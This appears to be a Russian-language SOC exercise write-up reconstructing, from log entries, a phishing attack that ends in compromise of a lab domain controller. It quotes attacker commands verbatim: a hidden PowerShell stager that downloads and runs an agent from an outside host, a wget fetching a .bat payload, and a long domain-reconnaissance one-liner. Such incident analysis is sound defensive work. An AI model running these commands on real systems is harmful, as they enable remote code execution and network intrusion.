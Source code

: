 # SOC-Enigma

Описание: Система UserGate Log Analyzer зафиксировала зафиксировала подозрительную активность - фишинг с последующей компрометацией хоста

## Этап 1: Фишинг
**Время 3:39** Пользователь получает письмо на сервис OutLook и скачивает **Resume.zip**

```sh
-2022-08-02 03:39:22.234{289a599c-9c69-62e8-6e14-000000001900}9396C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeC:\Users\Bob\Downloads\Resume.zip2022-08-02 
```

### Этап 2: Зауск файла resume.pdf.exe пользователем и дальнейшее развитие атаки
В 3:39 был запущен файл **resume.pdf.exe**. Данный файл при запуске пытается установить соединение с хостом 192.168.44.57:8888.

```sh
powershell.exe /c Start-Process -FilePath Resume.pdf.exe -ArgumentList '-server http://192.168.44.57:8888 -group red' -WindowStyle Hidden powershell.exe -ExecutionPolicy Bypass -C Clear-History;Clear
```

В 3:54 был создан процесс, который позволяет устанавливать связь с сервером.

```sh
HostApplication=powershell.exe -ExecutionPolicy Bypass -C if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};$server="http://0.0.0.0:8888";$socket="0.0.0.0:7010";$contact="tcp";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","manx.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");Get-Process | ? {$_.Path -like "C:\Users\Public\$name.exe"} | stop-process -f -ea $ErrAction;rm -force "C:\Users\Public\$name.exe" -ea $ErrAction;([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

### Этап 3: Разведка системы
В 3:55 была произведена разведка системы:

```sh
C:\Windows\System32\cmd.execmd.exe /C @echo off&echo ________________________________Whoami______________________________ &  whoami &echo ________________________________HostName______________________________  & hostname  & echo ________________________________IpConfig______________________________ & ipconfig /all  & echo ____________________________AllLocalUsers___________________________ & net user /domain  & echo _________________________AllUserInDomain___________________________ & net group /domain  & echo __________________________DomianAdmins_______________________________ & net group "domain admins" /domain  & echo _______________________ExchangetrustedMembers_______________________ & net group "Exchange Trusted Subsystem" /domain  & echo ________________________NetAccountDomain____________________________ & net accounts /domain  & echo ______________________________NetUser________________________________ & net user  & echo _______________________NetLocalGroupMembers________________________ & net localgroup administrators  & echo ________________________________netstat_______________________________ & netstat -an  & echo ______________________________tasklist________________________________ & tasklist  & echo _____________________________systeminfo_______________________________ & systeminfo  & echo ________________________________RDP___________________________________ & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"  & echo ________________________________Task__________________________________ & schtasks /query /FO List /TN "GoogleUpdatesTaskMachineUI" /V | findstr /b /n /c:"Repeat: Every:"  & echo ________________________________________AntiVirus______________________________ &WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### Этап 4: Загрузка вредоносного .bat файла

В 4:02 был создан процесс, связанный с файлом **0000000000.bat**, который впоследствии становится файлом **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C "wget http://192.168.44.57:8000/0000000000.bat -OutFile c:\windows\temp\1.bat
```

Также замечен файл **1.log**, который, возможно, создается при работе **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C gc c:\windows\temp\1.log
```

Около 4:28 был выполнен вход с правами администратора:
```sh
Выполнена попытка входа в систему с явным указанием учетных данных.

Субъект:
	ИД безопасности:		S-1-5-21-2282938710-1989567394-2605000726-1662
	Имя учетной записи:		bob
	Домен учетной записи:		PENTEST
	Код входа:		0xEC1DC
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Были использованы учетные данные следующей учетной записи:
	Имя учетной записи:		Administrator
	Домен учетной записи:		
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Целевой сервер:
	Имя целевого сервера:	exchange.pentest.net
	Дополнительные сведения:	exchange.pentest.net

Сведения о процессе:
	Идентификатор процесса:		0x4
	Имя процесса:		

Сведения о сети:
	Сетевой адрес:	172.16.249.160
	Порт:			445
```

В период с 4 до 5 был захвачен хост, а также контроллер домена.
